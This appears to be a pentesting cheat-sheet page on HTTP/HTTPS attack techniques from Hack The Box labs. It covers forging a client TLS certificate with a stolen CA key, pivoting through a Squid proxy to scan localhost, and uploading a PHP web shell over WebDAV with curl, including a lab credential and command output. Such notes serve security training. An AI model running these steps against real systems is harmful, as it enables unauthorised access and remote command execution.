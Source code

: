 ```yaml
---
description: HyperText Transfer Protocol - Port 80/443
icon: globe-pointer
---
```


# HTTP/HTTPS

<details>

<summary><mark style="color:purple;"><strong>Generate a</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>TLS</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>Certificate</strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`With the CA private key already`**</mark>

1. <mark style="color:purple;">Verify Client Certificate Requirements:</mark>

```bash
openssl s_client -connect 10.10.10.131:443
```

2. <mark style="color:purple;">Generate the client's private key:</mark>

```bash
openssl genrsa -out client.key 4096
```

3. <mark style="color:purple;">Create a</mark> <mark style="color:orange;">**`certificate signing request (CSR)`**</mark> <mark style="color:purple;">, ensure the fields match the server's expectations:</mark>

```bash
openssl req -new -key client.key -out client.req
```

4. <mark style="color:purple;">Sign the</mark> <mark style="color:orange;">**`CSR`**</mark> <mark style="color:purple;">with the</mark> <mark style="color:orange;">**`CA’s private key`**</mark> <mark style="color:purple;">to issue a</mark> <mark style="color:orange;">**`client certificate`**</mark> <mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```bash
openssl x509 -req -in client.req -CA lacasadepapel-htb.pem -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
```
{% endcode %}

5. <mark style="color:purple;">Convert the private key and certificate into a</mark> <mark style="color:orange;">**`PKCS#12 (.p12)`**</mark> <mark style="color:purple;">format file for easy import:</mark>

```bash
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Squid</code></strong></mark> <mark style="color:purple;">Proxy</mark></summary>

{% hint style="info" %}
#### <mark style="color:red;">`Port 3128`</mark>

* <mark style="color:purple;">The config file normally lives in</mark> <mark style="color:orange;">**`/etc/squid/squid.conf`**</mark>
* <mark style="color:purple;">Relays on</mark> <mark style="color:orange;">**`/usr/lib/squid/basic_ncsa_auth`**</mark> <mark style="color:purple;">for authentication and the program stores the passwords in</mark> <mark style="color:orange;">**`/etc/squid/passwords`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Check if you can reverse it to access the local network.</mark>
* <mark style="color:purple;">First add the address and port to the last line of your</mark> <mark style="color:orange;">**`proxychains.conf`**</mark> <mark style="color:purple;">file:</mark>

```
http 10.10.10.67 312
```

* <mark style="color:purple;">Then, just</mark> <mark style="color:orange;">**`nmap`**</mark> <mark style="color:purple;">the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">:</mark>

```sh
proxychains nmap -n -sT 127.0.0.1
```
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">`Upstream Proxy Server`</mark>

1. <mark style="color:purple;">On</mark> <mark style="color:orange;">**`burp`**</mark> <mark style="color:purple;">go to</mark> <mark style="color:orange;">**`Settings > Network > Connections`**</mark>
2. &#x20;<mark style="color:purple;">Create a new rule with</mark> <mark style="color:orange;">**`*`**</mark> <mark style="color:purple;">for the</mark> <mark style="color:orange;">**`Destination Host`**</mark><mark style="color:purple;">, set the target proxy as the</mark> <mark style="color:orange;">**`Proxy Host/Port`**</mark> <mark style="color:purple;">and set the credentials with basic</mark> <mark style="color:orange;">**`Authentication type`**</mark><mark style="color:purple;">.</mark>
3. <mark style="color:purple;">In order to fuzz the</mark> <mark style="color:orange;">**`localhost`**</mark><mark style="color:purple;">, set a</mark> <mark style="color:orange;">**`Proxy Listener`**</mark><mark style="color:purple;">, redirect to</mark> <mark style="color:orange;">**`127.0.0.1:80`**</mark> <mark style="color:purple;">and set</mark> <mark style="color:orange;">**`127.0.0.1:1234`**</mark> <mark style="color:purple;">as the interface.</mark>
4. <mark style="color:purple;">Now add the interface to</mark> <mark style="color:orange;">**`/etc/proxychains.conf`**</mark><mark style="color:purple;">.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>WebDAV</code></strong></mark></summary>

{% hint style="info" %}
###

_<mark style="color:purple;">**Web Distributed Authoring and Versioning**</mark>_<mark style="color:purple;">, an extension of the</mark> <mark style="color:orange;">**`HTTP`**</mark> <mark style="color:purple;">protocol that allows users to collaboratively edit and manage files stored on a remote server.</mark>

* <mark style="color:purple;">Extends HTTP methods like</mark> <mark style="color:orange;">**`GET`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">with additional ones like</mark> <mark style="color:orange;">**`PROPFIND`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`PROPPATCH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MKCOL`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`DELETE`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`COPY`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`MOVE`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`LOCK`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Credentials can be found at</mark> <mark style="color:orange;">**`webdav.passwd`**</mark><mark style="color:purple;">**.**</mark>
* [<mark style="color:orange;">**`devtest`**</mark>](https://github.com/cldrn/davtest) <mark style="color:purple;">can be use for enumeration.</mark>

***

{% code title="Upload files" overflow="wrap" %}
```sh
curl --upload-file ./file.php --user <UserName>:<Password> http://10.10.10.67/webdav_test_inception/
```
{% endcode %}

{% code title="Run commands from revshell" overflow="wrap" %}
```sh
curl --data-urlencode 'cmd=id' http://webdav_tester:babygurl69@10.10.10.67/webdav_test_inception/file.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}

{% code title="Enumeration" overflow="wrap" %}
```sh
davtest.pl -url http://10.10.10.67/webdav_test_inception -auth <UserName>:<Password>
```
{% endcode %}
{% endhint %}

</details>
